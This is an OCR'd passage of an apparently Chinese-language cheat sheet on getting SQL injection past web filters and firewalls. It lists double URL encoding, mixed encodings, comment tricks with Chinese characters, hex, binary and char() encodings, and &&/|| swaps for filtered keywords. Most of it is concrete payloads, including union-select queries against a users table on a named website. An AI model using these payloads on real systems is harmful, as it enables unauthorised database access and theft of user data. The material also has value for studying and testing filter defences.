 ### 双编码

多次解析：
%2527解析后是%27再解析是'

```
绕过：http://www.90jishuwang.com/news.php?id=1%252f%252aX396X/union%252f%252a /select%252f%252a*/1,2,3%252f%252a*/from%252f%252a*/users --
```

### 编码组合

```
过滤：http://www.90jishuwang.com/php-nuke/?/X401X*/union/**/select?
绕过：http://www.90jishuwang.com/php-nuke/?/%2A%2A/union/%2A%2A/select?
绕过：http://www.90jishuwang.com/php-nuke/?%2fX405X*%2funion%2f**%2fselect?
```

### 中文字符绕过

```
SQL> union/*%aa*/select
```

利用 union/*中文字符*/select，还要保证这种中文字符不能构造一个汉字。

### 进制换算

```
' or 'a' = n'a # unicode
' %u0061nd 1 = 1 # unicode
' or 'a' = b'1100001 # binary
' or 'a' = x'61 # hexadecimal
' and substr(data,1,1) = 0x61# 0x6162
' and substr(data,1,1) = unhex(61)# unhex(6162)
' and substr(data,1,1) = char(97)# char(97,98)
' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
' and substr(data,1,1) = lower(conv(11,10,36))# 'b'
' and substr(data,1,1) = lower(conv(36,10,36))# 'z'
```

## 语法绕过

### 关键词绕过

* 过滤and，or可以使用&&和||

```
过滤：1 or 1 = 1 1 and 1 = 1
绕过：1 || 1 = 1 1 && a = 1
绕过：^, =, !=, %, /, *, &, &&, |, ||, <, >, >>, <<, >=, <=, <>, <=>, XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN, ...
```

* 同时过滤and，or，union
